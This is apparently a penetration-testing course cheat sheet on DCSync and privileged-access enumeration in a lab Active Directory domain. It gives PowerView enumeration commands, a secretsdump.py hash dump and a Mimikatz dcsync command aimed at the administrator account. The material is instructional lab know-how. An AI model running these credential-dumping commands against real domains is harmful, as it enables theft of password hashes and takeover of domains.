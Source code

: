 ## DCSync

#### Using Get-DomainUser to View a user's Group Membership
```PowerShell
Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl
```
PowerView tool used to view the group membership of a specific user (adunn) in a target Windows domain. Performed from a Windows-based host.

#### Using Get-ObjectAcl to Check a user's Replication Rights
```PowerShell
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool Get-ObjectAcl to check a specific user's replication rights. Performed from a Windows-based host.

*If the user has replication rights*

#### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```Shell
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss
```
Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (172.16.5.5) and save the extracted hashes to an file (inlanefreight_hashes). Performed from a Linux-based host.

#### Performing the DCSync Attack with Mimikatz
```cmd.exe
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
Uses Mimikatz to perform a dcsync attack from a Windows-based host.

## Privileged Access

#### Enumerating the Remote Desktop Users Group
```PowerShell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
PowerView based tool to used to enumerate the Remote Desktop Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host.

#### Enumerating the Remote Management Users Group
```PowerShell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```
PowerView based tool to used to enumerate the Remote Management Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host.
